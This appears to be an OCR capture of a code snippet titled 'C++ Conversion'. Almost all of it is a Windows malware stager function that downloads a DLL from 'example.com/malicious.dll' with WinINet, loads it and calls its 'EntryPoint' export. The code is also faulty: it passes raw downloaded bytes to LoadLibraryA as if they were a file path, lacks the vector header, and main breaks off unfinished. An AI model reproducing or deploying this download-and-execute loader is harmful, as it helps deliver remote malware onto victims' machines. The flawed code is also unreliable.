 ### C++ Conversion
Here's how you might convert this logic to C++:

```cpp
#include <windows.h>
#include <wininet.h>
#include <iostream>

#pragma comment(lib, "wininet.lib")

void DownloadAndExecute(const char* url)
{
    // Initialize WinINet
    HINTERNET hInternet = InternetOpen("Stager", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpen failed!" << std::endl;
        return;
    }

    // Open the URL
    HINTERNET hUrl = InternetOpenUrl(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE, 0);
    if (!hUrl) {
        std::cerr << "InternetOpenUrl failed!" << std::endl;
        InternetCloseHandle(hInternet);
        return;
    }

    // Buffer to hold the downloaded file
    char buffer[4096];
    DWORD bytesRead;
    std::vector<BYTE> fileData;

    // Read the file from the URL
    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead) {
        fileData.insert(fileData.end(), buffer, buffer + bytesRead);
    }

    // Close internet handles
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    // Load the DLL into memory
    HMODULE hModule = LoadLibraryA(reinterpret_cast<char*>(fileData.data()));
    if (!hModule) {
        std::cerr << "LoadLibrary failed!" << std::endl;
        return;
    }

    // Get the entry point (replace "EntryPoint" with the actual function name)
    FARPROC entryPoint = GetProcAddress(hModule, "EntryPoint");
    if (entryPoint) {
        // Execute the entry point
        entryPoint();
    } else {
        std::cerr << "GetProcAddress failed!" << std::endl;
    }
}

int main()
{
    const char* url = "https://example.com/malicious.dll";
    DownloadAndExecute(url);

```